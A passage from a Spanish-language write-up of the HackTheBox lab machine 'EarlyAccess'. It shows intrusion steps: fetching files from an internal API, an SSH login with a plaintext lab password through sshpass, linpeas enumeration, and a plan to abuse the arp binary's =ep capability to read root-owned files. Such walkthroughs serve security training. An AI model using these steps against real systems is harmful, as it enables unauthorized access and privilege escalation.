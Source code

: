 ```bash
www-adm@webserver:/tmp$ wget http://172.18.0.101:5000
```

vemos un archivo <i>index.html</i> que dice: <i>Welcome to the game-key verification API! You can verify your keys via: /verify/game-key. If you are using manual ... te database using /check_db</i>
vemos un archivo <i>check_db</i>, lo descargamos...

```bash
www-adm@webserver:/tmp$ wget http://172.18.0.101:5000/check_db
```

<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686606024/early_json_pass_zzh7cq.webp'
width={721}
height={795}
/>

ingresamos por ssh a la <i>10.10.11.110</i> con las credenciales <i>drew</i>.

```bash
sshpass -p "XeoNu86JTznxMCQuGHrGutF3Csq5" ssh drew@10.10.11.110
drew@earlyacccess:~$ ls
user.txt
drew@earlyacccess:~$ cat user.txt
**************************
```

Ejecutaremos <a target='_blank' src='https://github.com/carlospolop/PEASS-ng'>linpeas</a>, y veremos un correo de Game-adm a drew,
el cual dice que si el juego se rompe automáticamente estará online en 1m aproximadamente.

También vemos que ...

```bash
game-adm@earlyaccess:/$ getcap -r / 2>/dev/null
/usr/sbin/arp =ep
/usr/bin/ping = cap_net_raw+ep
```

teniendo arp que vale <i>=ep</i> podemos leer archivos root, pero arp solo pueden ejecutarlo los del grupo adm,
entonces si nos convertimos en <i>game-adm</i> podremos escalar privilegios.

```bash
game-adm@earlyaccess:/$ ls -l /usr/sbin/arp
-rwxr-x--- 1 root  adm 67512 Sep 24 2018 /usr/sbin/arp
```

### Root Shell

Ahora toca meterse como root, vemos un <i>.ssh</i> con un rsa pública y privada, en la publica
nos muestra <i>game-tester@game-server</i> al final del output vemos un nuevo usuario <i>game-tester</i> y un contenedor <i>game-server</i>
que no nos resuelve por ejemplo <i>ping -c 1 game-server</i>.

Toca hacer un descubrimiento de puertos en <i>hostname -I</i> y verificar cuál es el que tiene el puerto 22 abierto así ingresaremos con la rsa pública, para
ello montaremos un script.
